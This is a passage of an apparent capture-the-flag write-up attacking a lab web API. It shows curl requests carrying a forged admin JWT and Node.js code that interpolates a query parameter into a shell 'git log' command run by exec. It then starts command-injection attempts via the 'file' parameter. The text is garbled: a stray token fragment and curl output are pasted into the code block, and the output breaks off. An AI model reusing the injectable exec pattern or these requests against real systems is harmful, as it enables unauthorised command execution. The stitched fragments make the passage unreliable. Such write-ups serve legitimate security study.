```bash
  "code": 128,
  "signal": null,
  "cmd": "git log --oneline undefined"
}
❯ curl -X GET "http://10.10.11.120/api/priv" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
{
  "creds": {
    "role": "admin",
    "username": "theadmin",
    "desc": "welcome back admin"
  }
}
```

## RCE via API logs
If we take a look at the `/api/logs` output, we can see the field `cmd`, if we take a look at the source code:
```js
LCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
{
❯ cat verifytoken.js
───────┬───────────────────────────────────────────────────────────────────────────
       │ File: verifytoken.js
       │ Size: 390 B
───────┼───────────────────────────────────────────────────────────────────────────
  32   │ router.get('/logs', verifytoken, (req, res) => {
  33   │     const file = req.query.file;
  34   │     const userinfo = { name: req.user }
  35   │     const name = userinfo.name.name;
  36   │     
  37   │     if (name == 'theadmin'){
  38   │         const getLogs = `git log --oneline ${file}`;
  39   │         exec(getLogs, (err , output) =>{
  40   │             if(err){
  41   │                 res.status(500).send(err);
  42   │                 return
  43   │             }
  44   │             res.json(output);
  45   │         })
  46   │     }
  47   │     else{
  48   │         res.json({
  49   │             role: {
  50   │                 role: "you are normal user",
  51   │                 desc: userinfo.name.name
  52   │             }
  53   │         })
  54   │     }
  55   │ })
```
As we can see, if we provide a parameter file, it will be replaced on the `getLogs` string, which is executed in bash. So we can try to obtain RCE with bash injection:
```bash
❯ curl -X GET "http://10.10.11.120/api/logs?file=/etc/passwd" -H "auth-token: eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJfaWQiOiI2MjllNmE1MzRlZTk5NDA0NWViNmRjNDciLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6InJldmFuQGtvcnJpYmFuLmNvbSIsImlhdCI6MTY1NDU0OTIwOX0.Brw0EOVb6_uZR2L4jk-XeRXhBt0XfDmcW1UeTIxTOHw" -s | jq
{
  "killed": false,
  "code": 128,
  "signal": null,
```